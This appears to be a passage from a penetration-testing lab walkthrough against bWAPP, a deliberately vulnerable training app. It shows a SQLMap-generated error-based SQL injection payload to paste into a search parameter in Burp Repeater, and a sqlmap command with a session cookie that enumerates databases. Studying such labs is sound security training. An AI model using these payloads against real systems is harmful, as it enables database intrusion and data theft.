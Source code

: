 - In BurpSuite, send the request to Repeater
  - Copy the first payload from SQLMap and paste it as part of the `title` parameter

```bash
hacking' AND (SELECT 1819 FROM(SELECT COUNT(*),CONCAT(0x716a767171,(SELECT (ELT(1819=1819,1))),0x7171707071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'bLrY'='bLrY&action=search
```

![SQL syntax error](assets/image-20230504192903226.png)

- Use `sqlmap` to get a list of tables for the `bWAPP` database

```bash
# List databases
sqlmap -u "http://192.42.186.3/sqli_1.php?title=hacking&action=search" --cookie "PHPSESSID=rmoepg39ac0savq89d1k5fu2q1; security_level=0" -p title --dbs
```

![SQLMap Databases](assets/image-20230504194044253.png)